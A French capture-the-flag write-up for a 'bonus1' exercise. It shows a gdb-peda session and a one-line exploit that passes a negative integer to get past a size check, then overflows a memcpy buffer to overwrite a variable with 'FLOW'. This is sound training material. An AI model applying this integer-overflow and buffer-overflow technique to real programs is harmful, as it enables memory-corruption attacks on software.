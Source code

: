 # Bonux 1 

- On voit que dans le code les bit sont decaler de deux pour calculer la taille
- Le premier bit d'un int sert a savoir si il est negatif ou positif
- Donc tout les nombres negatif seront converti en nombre positif

- On regarde donc combien il faut ecrire pour ecrire par dessus la variable m
<pre>
[alarmv@alarm Ressources]$ gdb ./bonus1 
gdb-peda$ pattern create 75
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAA'
gdb-peda$ disass main
Dump of assembler code for function main:
   0x08048473 <+79>:    call   0x8048320 <memcpy@plt>
   <strong>0x08048478</strong> <+84>:    cmp    DWORD PTR [esp+0x3c],0x574f4c46
gdb-peda$ b *0x08048478
Breakpoint 1 at 0x8048478
gdb-peda$ r -2147483600 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAA'
gdb-peda$ x $esp+0x3c
<strong>0xffffd54c:     "AA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAA"</strong>
gdb-peda$ pattern offset AA0AAFA
AA0AAFA found at offset: <strong>40</strong>
</pre>
- Il faut donc ecrire 44 caracteres dans memcpy se qui fait **101100** en binaire
- Avec `<< 2` il faut que le int soit egale a **10000000000000000000000000001011** se qui fait -2147483637
- Donc on peut executé la commande ci contre
```
./bonus1 -2147483637 $(python -c "print('A' * 40 +  '\x46\x4c\x4f\x57')")
```
